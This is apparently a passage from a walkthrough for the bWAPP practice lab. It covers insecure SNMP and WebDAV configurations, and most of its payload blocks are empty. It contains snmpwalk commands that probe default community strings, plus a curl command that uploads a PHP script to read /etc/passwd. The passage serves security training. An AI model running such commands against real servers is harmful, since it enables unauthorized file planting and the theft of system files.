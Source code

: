 ```
```


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  Insecure SNMP Configuration 💀

Default community strings are set on the machine

```
$ snmpwalk -v2c -c private bwapp-server
$ snmpwalk -v2c -c public bwapp-server
```


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  Insecure WebDAV Configuration 💀

```
curl -X PUT --data '<?php $f=fopen("/etc/passwd","r"); echo fread($f,filesize("/etc/passwd")); fclose($f); ?>' 'http://192.168.1.10/webdav/attack.php'
```

# / A6 - Sensitive Data Exposure /

